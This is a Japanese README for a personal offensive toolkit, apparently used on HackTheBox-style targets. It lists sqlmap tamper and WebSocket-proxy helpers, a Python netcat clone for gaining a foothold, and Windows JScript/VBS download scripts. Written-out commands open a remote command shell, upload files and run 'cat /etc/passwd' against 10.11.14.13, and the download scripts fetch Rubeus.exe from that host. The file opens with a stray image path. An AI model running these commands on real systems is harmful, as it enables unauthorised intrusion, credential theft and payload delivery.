 # side_tool
個人的ハックツールに付与できる拡張機能コードリスト

## sqlmap_basic_auth.py
sqlmapコマンドのBasic Auth Base64 Request拡張機能コード
<br/>
コマンド例
```
sqlmap -r ./req --tamper=./sqlmap_basic_auth.py --ignore-code=401 --level 5 --risk 3
```
リクエスト例
```
#req
GET http://example.htb/ HTTP/1.1
Content-Length: 0

...
Authorization: Basic *
```
## sqlmap_websocket.py
websocketのプロトコルを介したsqlmapの実行。プロキシ`localhost:8081`を縦てそこからSQLi対象へ送ります。
<br/>
コマンド例
```
# プロキシ起動
python3 sqlmap_websocket.py

#sqlmap実行
sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```

## netcat.py
Python環境が存在（ほぼある）するターゲットで簡易的に足場を構築するためのもの

```
# 対話型コマンドシェルの起動
netcat.py -t 10.11.14.13 -p 4444 -l -c
# ファイルのアップロード
netcat.py -t 10.11.14.13 -p 4444 -l -u=mytest.whatisup
# コマンドの実行
netcat.py -t 10.11.14.13 -p 4444 -l -e=\"cat /etc/passwd\"
# 通信先サーバーの135番ポートに文字列を送信
echo 'ABCDEFGHI' | ./netcat.py -t 10.11.14.13 -p 135
# サーバーに接続
netcat.py -t 10.11.14.13 -p 4444
```
## windows_wget_script
Windows標準で組み込まれているスクリプト言語を使ってWgetを実行する物

CMD例：
```
#Javascript
cscript.exe /nologo wget.js hxxp://10.11.14.13/Rubeus.exe

#VBS
cscript.exe /nologo wget.vbs hxxp://10.11.14.13/Rubeus.exe
```
